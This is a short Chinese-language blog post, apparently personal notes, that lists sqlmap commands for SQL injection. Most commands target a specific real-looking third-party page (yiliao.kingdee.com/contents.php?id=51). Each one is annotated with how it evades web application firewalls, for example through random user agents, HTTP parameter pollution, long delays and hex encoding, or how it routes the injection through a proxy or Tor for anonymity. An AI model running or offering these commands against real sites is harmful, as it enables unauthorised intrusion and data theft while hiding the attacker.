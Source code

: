 ```yaml
---
layout:	post
title:	KaliTools-SQLmap
date:   2018-04-10 13:00:12 +0800
categories: Kali
---
```


## SQLmap 常用语句

- 检测注入点：
`sqlmap -u "URL"`
- 检测注入点并自动进行选择：
`sqlmap -u "URL" --batch`

- [更新SQLmap](https://baijiahao.baidu.com/s?id=1561874838817969&wfr=spider&for=pc) 


## 使用参数进行绕过

` sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --random-agent -v 2 `
使用任意浏览器进行绕过，尤其是在WAF配置不当的时候

`sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --hpp -v 3`
使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上

`sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --delay=3.5 --time-sec=60`
使用长的延时来避免触发WAF的机制，这方式比较耗时

` sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --proxy=211.211.211.211:8080 --proxy-cred=211:985`
使用代理进行注入

` sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --ignore-proxy`
禁止使用系统的代理，直接连接进行注入

`sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --flush-session`
清空会话，重构注入

`sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --hex`
或者使用参数 --no-cast ，进行字符码转换

` sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --mobile`
对移动端的服务器进行注入

`sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --tor `
匿名注入